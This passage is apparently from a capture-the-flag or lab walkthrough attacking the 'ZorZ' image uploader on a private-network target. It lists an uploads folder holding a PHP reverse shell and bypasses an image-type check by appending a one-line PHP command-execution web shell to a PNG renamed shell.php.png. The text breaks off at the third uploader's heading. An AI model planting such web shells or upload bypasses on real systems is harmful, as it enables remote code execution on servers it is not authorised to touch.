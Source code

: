 ```shellscript
curl http://192.168.1.17/uploads1/
```

**Output (showing the uploaded file):**

```html
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN"><html> <head>  <title>Index of /uploads1</title> </head> <body><h1>Index of /uploads1</h1>  <table>   <tr><th valign="top"><img src="/icons/blank.gif" alt="[ICO]"></th><th><a href="?C=N;O=D">Name</a></th><th><a href="?C=M;O=A">Last modified</a></th><th><a href="?C=S;O=A">Size</a></th><th><a href="?C=D;O=A">Description</a></th></tr>   <tr><th colspan="5"><hr></th></tr><tr><td valign="top"><img src="/icons/back.gif" alt="[PARENTDIR]"></td><td><a href="/">Parent Directory</a></td><td>&nbsp;</td><td align="right">  - </td><td>&nbsp;</td></tr><tr><td valign="top"><img src="/icons/unknown.gif" alt="[   ]"></td><td><a href="php-reverse-shell.php">php-reverse-shell.php</a></td><td align="right">2025-07-14 16:44  </td><td align="right">5.4K</td><td>&nbsp;</td></tr>   <tr><th colspan="5"><hr></th></tr></table><address>Apache/2.4.7 (Ubuntu) Server at 192.168.1.17 Port 80</address></body></html>
```

The `php-reverse-shell.php` was accessible at `http://192.168.1.17/uploads1/php-reverse-shell.php`.

#### 2. Upload to `uploader2.php`(via `index2.html`)

Next, I tried to upload the `php-reverse-shell.php` directly to `uploader2.php` (accessed via `index2.html`). This resulted in an explicit error message: "File is not an image. Sorry, only JPG, JPEG, PNG & GIF files are allowed. Sorry, your file was not uploaded."

<img width="892" height="190" alt="image" src="https://github.com/user-attachments/assets/f35b86f4-6d04-4cd3-96e5-2359110316ca" />


To bypass this restriction, I used an image-based PHP shell technique: appending the PHP code to a legitimate PNG image. This makes the file appear as a valid image to the server's file type check, but still allows the PHP interpreter to execute the appended code if the file is accessed directly.

1. **Download a base PNG image:**( you can find this online )

2. **Append the PHP web shell code to the PNG:**
I used a simple `exec` shell for brevity, but the reverse shell could also be appended.

```shellscript
echo '<?php exec($_GET["cmd"]); ?>' >> base.png
```
<img width="830" height="204" alt="image" src="https://github.com/user-attachments/assets/e9f8eb68-d412-453a-8070-b2535885b346" />


3. **Rename the file to a PHP extension with an image extension:**

```shellscript
mv base.png shell.php.png
```




I then uploaded `shell.php.png` through the "ZorZ Image Uploader 2!" interface. The upload was successful.



#### 3. Upload to `uploader3.php`(via `index2.html`)
